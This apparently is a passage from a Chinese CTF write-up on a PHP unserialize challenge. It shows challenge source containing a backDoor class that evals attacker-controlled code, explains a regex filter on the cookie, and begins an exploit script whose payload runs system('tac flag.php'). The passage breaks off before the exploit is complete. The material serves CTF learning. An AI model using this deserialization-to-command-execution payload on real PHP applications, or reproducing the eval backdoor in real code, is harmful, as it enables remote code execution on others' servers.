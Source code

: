 ```php
    }
    public function __destruct(){
        $this->class->getInfo();
    }

}

class info{
    public $user='xxxxxx';
    public function getInfo(){
        return $this->user;
    }
}

class backDoor{
    public $code;
    public function getInfo(){
        eval($this->code);
    }
}

$username=$_GET['username'];
$password=$_GET['password'];

if(isset($username) && isset($password)){
    if(!preg_match('/[oc]:\d+:/i', $_COOKIE['user'])){
        $user = unserialize($_COOKIE['user']);
    }
    $user->login($username,$password);
}
```



#### 解析

这里与上一题思路类似，只不过加了一个正则匹配，上一题的exp加个payload绕过就好

```php
 if(!preg_match('/[oc]:\d+:/i', $_COOKIE['user']))
 [oc]    # 匹配o或者c
 :    # 匹配冒号
 \d+    # 匹配数字，+ 号表示可以由多个数字组成
 :    # 匹配冒号
 //i    # 表示大小写都匹配
组合一下也比较清晰明了
```

exp

```php
<?php

use backDoor as GlobalBackDoor;
use ctfShowUser as GlobalCtfShowUser;

class ctfShowUser{
    public $username='xxxxxx';
    public $password='xxxxxx';
    public $isVip=false;
    public $class;

}

class backDoor{
    public $code = "system('tac flag.php');";
```